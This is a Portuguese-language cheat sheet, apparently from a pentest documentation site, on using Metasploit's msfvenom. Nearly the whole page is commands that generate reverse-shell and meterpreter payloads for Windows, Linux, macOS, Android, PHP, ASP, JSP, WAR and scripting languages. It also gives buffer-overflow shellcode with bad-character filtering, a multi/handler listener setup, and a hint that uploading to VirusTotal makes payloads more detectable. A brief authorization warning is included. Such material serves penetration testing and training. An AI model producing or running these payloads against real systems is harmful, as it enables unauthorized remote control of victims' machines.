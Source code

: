 ```yaml
---
id: msfvenom
title: msfvenom
---
```


O `msfvenom` é uma poderosa ferramenta utilizada para criar exploits e gerar
payloads para diferentes sistemas operacionais e arquiteturas. É uma parte
essencial do Metasploit Framework, uma plataforma de testes de penetração de
código aberto.

## Aviso Importante

Ao usar o `msfvenom` para criar payloads maliciosos, é crucial garantir que você
tenha autorização explícita para realizar tais testes em sistemas e redes. O uso
indevido dessas técnicas é ilegal e pode resultar em sérias consequências
legais.

## Testando Payloads

Antes de executar os payloads gerados, é altamente recomendado testá-los em um
ambiente controlado. Uma maneira de fazer isso é enviando o arquivo para o site
[VirusTotal](https://www.virustotal.com), porém, tenha cuidado, pois o envio
para o VirusTotal pode atualizar a heurística de alguns antivírus, tornando os
payloads mais detectáveis.

## Listando Payloads Disponíveis

Para verificar todos os payloads disponíveis, execute o seguinte comando:

```bash
msfvenom --list payloads
```

## Gerando Payloads para Diferentes Sistemas

### Payload para Windows

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=192.168.0.100 \
    LPORT=443 \
    -f exe > virus.exe
```

### Payload para Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f elf > shell.elf
```

### Payload para Mac

```bash
msfvenom -p osx/x86/shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f macho > shell.macho
```

## Payloads para Servidores WEB

### Payload PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.php

cat shell.php | pbcopy && \
    echo '<?php ' | tr -d '\n' > shell.php && \
    pbpaste >> shell.php
```

:::info
`pbcopy` e `pbpaste` precisam ser instalados através do seguinte comando:

```bash
sudo apt-get install xclip
```

:::

### Payload ASP

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f asp > shell.asp
```

### Payload JSP

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.jsp
```

### Payload WAR

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f war > shell.war
```

## Payloads Adicionais

### Payload Python

```bash
msfvenom -p cmd/unix/reverse_python \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.py
```

### Payload Bash

```bash
msfvenom -p cmd/unix/reverse_bash \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.sh
```

### Payload Perl

```bash
msfvenom -p cmd/unix/reverse_perl \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f raw > shell.pl
```

## Shellcode

Para todos os códigos de shell, consulte `msfvenom --list format` para obter
informações sobre parâmetros válidos. O `msfvenom` produzirá um código que pode
ser recortado e colado nessa linguagem para suas explorações.

### Linux Based Shellcode

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f ${FORMATO}
```

### Windows Based Shellcode

```bash
msfvenom -p windows/meterpreter/reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f ${FORMATO}
```

### Mac Based Shellcode

```bash
msfvenom -p osx/x86/shell_reverse_tcp \
    LHOST=${IP} \
    LPORT=${PORTA} \
    -f ${FORMATO}
```

## Recebendo a Conexão do Alvo

Para receber a conexão do alvo, será necessário que o Metasploit esteja em
execução. Para configurar o Metasploit para a conexão reversa, siga os seguintes
passos:

1. Execute o Metasploit:

    ```bash
    msfconsole
    ```

2. No console do Metasploit, configure o exploit e as opções necessárias:

    ```msf
    msf > use exploit/multi/handler
    msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
    msf exploit(handler) > set LPORT 443
    msf exploit(handler) > set LHOST 192.168.0.100
    msf exploit(handler) > exploit
    ```

## Criando um Exploit para Windows para Buffer Overflow (BoF)

```bash
msfvenom -p windows/shell_reverse_tcp \
    LHOST=192.168.0.100 \
    LPORT=443 \
    -b "\x00\x0a\x0d\x20" \
    EXITFUNC=thread \
    -f python
```

Explicação dos parâmetros:

- `-p windows/shell_reverse_tcp`: Tipo do exploit.
- `LHOST`: IP de conexão reversa.
- `LPORT`: Porta de conexão reversa.
- `-b "\x00\x0a\x0d\x20"`: Bad caracteres ou caracteres inválidos.
- `EXITFUNC=thread`: Evita que a aplicação morra depois do exploit ser fechado.

## Gerando Payload Binário para Sistema Linux

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp \
    lport=433 \
    lhost=192.168.0.111 \
    -f elf > malicioso
```

Esse tipo de payload é usado quando você já tem acesso à shell no dispositivo e
necessita usar o meterpreter para auxiliar na pós-exploração.

## Gerando Payload APK para Android

```bash
msfvenom -p android/meterpreter/reverse_tcp \
    lport=433 \
    lhost=192.168.0.111 \
    R > malicioso.apk
```

:::info
O parâmetro `R` indica que o arquivo será salvo em modo RAW. Essa abordagem é
utilizada quando você já tem uma shell no dispositivo Android e necessita usar o
meterpreter para auxiliar na pós-exploração.
:::
